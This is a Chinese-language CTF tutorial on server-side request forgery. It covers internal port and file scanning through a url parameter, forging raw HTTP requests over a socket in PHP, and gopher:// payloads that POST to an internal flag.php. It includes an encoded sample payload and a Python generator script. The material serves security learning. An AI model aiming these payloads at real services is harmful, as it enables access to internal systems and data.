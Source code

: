 
SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能，且没有对目标地址做过滤与限制。比如从指定URL地址获取网页文本内容，加载指定地址的图片，文档等等

SSRF漏洞通过篡改获取资源的请求发送给服务器（服务器并没有检测这个请求是否合法的），然后服务器以他的身份来访问服务器的其他资源。SSRF利用存在缺陷的Web应用作为代理攻击远程和本地的服务器


## 文件扫描

扫描?url=127.0.0.1/x

## 端口扫描

通过服务器访问内网地址，直接用bp爆破url传参中的端口即可：127.0.0.1:x

## 发送包

```
当遇到
$fp=fsockopen($host,intval($port),$error,$errstr,30);//建立socket连接
fwrite($fp,$data);//写进我们的会话中的

我们需要以http请求访问一个网站时，需要伪造请求头写入会话
<?php
$out = "GET /flag.php HTTP/1.1\r\n";
$out .= "Host: 127.0.0.1\r\n";
$out .= "Connection: Keep-Alive\r\n\r\n";
echo $out;
echo base64_encode($out)
?>

```



## POST请求（gopher协议）

如果在x.php可以利用curl传url（也支持http和file协议），那么我们可以用gopher协议在x.php中构造post请求包往flag.php传key值，以此获取flag

gopher协议默认端口为70，需要指定POST方法，回车换行需要使用%0d%0a,而且POST参数之间的&分隔符也需要URL编码
```
POST /flag.php HTTP/1.1
Host: 127.0.0.1:80
Content-Type: application/x-www-form-urlencoded
Content-Length: 36

key=d93819c4c1a18dc606dc5c6486f77227
```
gopher的数据需要用url编码多次之后再发送，且第一次编码后%0A需全部替换成%0D%0A，现在进行编码
content-lenght为key值长度

**gopher使用结构gopher://127.0.0.1:80/_{TCP/IP数据流}**

（下划线的原因是gopher协议回吃掉第一个url后的字符）

以下为注入样例
```
url=gopher://127.0.0.1:80/_POST%252520/flag.php%252520HTTP/1.1%25250D%25250AHost%25253A%252520127.0.0.1%25253A80%25250D%25250AContent-Type%25253A%252520application/x-www-form-urlencoded%25250D%25250AContent-Length%25253A%25252036%25250D%25250A%25250D%25250Akey%25253D0bd5e192bb3c5e0f3df6b8ddf4252d9c
```

生成脚本

```
# -*- coding: UTF-8 -*-
#coding: utf-8
import urllib.parse
s=''
ss='''POST / HTTP/1.1
Host: 127.0.0.1:80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://node5.anna.nssctf.cn:28344
Connection: close
Referer: http://node5.anna.nssctf.cn:28344/
Upgrade-Insecure-Requests: 1

url=http://127.0.0.1/flag.php'''
for i in ss:

    if len(str(hex(ord(i))[2:]))>=2:
        s+=str(hex(ord(i))[2:])
    else:
        s+='0'+str(hex(ord(i))[2:])
s=s.replace('0a','0d0a')
#print(s)

strrr=''
len=len(s)
p=''
for i in range(len)[::2]:
    p+=urllib.parse.quote(chr(int(s[i:i+2],16)))
    strrr+=chr(int(s[i:i+2],16))
#print(strrr)
urlp = urllib.parse.quote(p)
urlp = 'gopher://127.0.0.1:80/_' + urlp
print(urlp)
```

